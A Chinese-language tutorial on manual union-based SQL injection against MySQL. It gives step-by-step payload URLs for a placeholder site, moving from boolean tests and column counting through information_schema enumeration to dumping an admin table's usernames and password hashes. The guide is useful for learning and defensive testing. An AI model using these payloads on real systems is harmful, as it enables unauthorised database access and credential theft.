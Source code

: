 ### 1、mysql的注释符号

```
#
-- 内容
/*里面的内容都会被注释*/
```

用于注释后后面语句 不再执行
例如

```bash
select * from artile where id=1#这个部分的语句不再执行
```

### 2、注入常用查询系统信息函数

MySQL 版本：version();

数据库用户名：user();

数据库名：database();

数据库路径：@@datadir;

操作系统版本：@@version_compile_os;

### 3、判断是否存在注入

页面是否返回正常，或是否存在报错信息

and 1=1 正常
and 1=2 错误

&& 1=1  转码 %26%261=1  正常
&& 1=2  转码 %26%261=2  错误

```http
http://target_sys.com/article.php?id=1 and 1=1
http://target_sys.com/article.php?id=1 and 1=2 

http://target_sys.com/article.php?id=1 %26%261=1
http://target_sys.com/article.php?id=1 %26%261=2
```

or 1=1 
or 1=2

1||1=2 转码1 %7c%7c1=2  正常
-1||1=2 转码-1%7c%7c1=2 错误

```http
http://target_sys.com/article.php?id=-1 or 1=2
http://target_sys.com/article.php?id=1 or 1=2 

http://target_sys.com/article.php?id=1%7c%7c1=2
http://target_sys.com/article.php?id=-1%7c%7c1=2
```

&&与||这种特殊的符号 一定要在浏览器url前进行转码之后方可提交 因为浏览器默认不会进行编码

### 4、判断列数

order by 进行排列获取字段数

```http
http://target_sys.com/article.php?id=1 order by 3
```

order by 3 页面正常 order by 4 页面返回空白或者文章没有显示出来，列数为3个

mysql与access数据库不一样。在没有表名的前提下也可以查询数据库一些信息，如安装路径、库名、操作系统信息

系统用户名：system_user()

用户名：user()

当前用户名：current_user

连接数据库的用户名：session_user()

数据库名：database() 

数据库版本：version() MYSQL

MYSQL读取本地文件的函数：load_file() 

读取数据库路径：@@datadir 

安装路径：@@basedir MYSQL 

操作系统 ：@@version_compile_os 

### 5、联合查询 union select

union select 查询两个表的内容

```http
http://target_sys.com/article.php?id=-1 union select 1,2,3
http://target_sys.com/article.php?id=1 and 1=2 union select 1,2,3
```

以上两个语句的意思都是相同的 前面获取数据为null 将会显示后面的数字

### 6、查询库名

把数字替换成你要查询的函数名 database() 当前数据库名

```http
http://target_sys.com/article.php?id=1 and 1=2 union select 1,database(),3
```

### 7、查询表名

mysql 里面有一个库information_schema 里面存在很多信息，其中包括所有的库名， 表名， 字段名。因为可以利用这个库来获取当前库的表

语句如下

```http
http://target_sys.com/article.php?id=-1 union select 1,2,TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1
```

target_sys库

```http
http://target_sys.com/article.php?id=-1 union select 1,2,TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=0x7461726765745f737973 limit 0,1
```

这个database()函数与 target_sys 相同,如果不使用database()函数就要把target_sys 转换 十六进制 0x7461726765745f737973

limit 0,1 就是获取第一个表名，获取第二个表名就要把0 改变成1、第三个 2、 第四 3 如此类推 直接 返回 空

admin
article
moon_range

### 8、查询字段

查询字段也是查询 information_schema库 里的信息。

admin表 转换 成十六进制 0x61646d696e 

```http
http://target_sys.com/article.php?id=-1 union select 1,2,COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME=0x61646d696e limit 0,1
```

id
username
password

### 9、查询数据

```http
http://target_sys.com/article.php?id=-1 union select 1,2,group_concat(username,0x3a,password) from admin
```

group_concat() 用于 打印并接 字符串  输出两个字段的内容 0x3a是 字符 ：最终的结果是 

admin:e10adc3949ba59abbe56e057f20f883e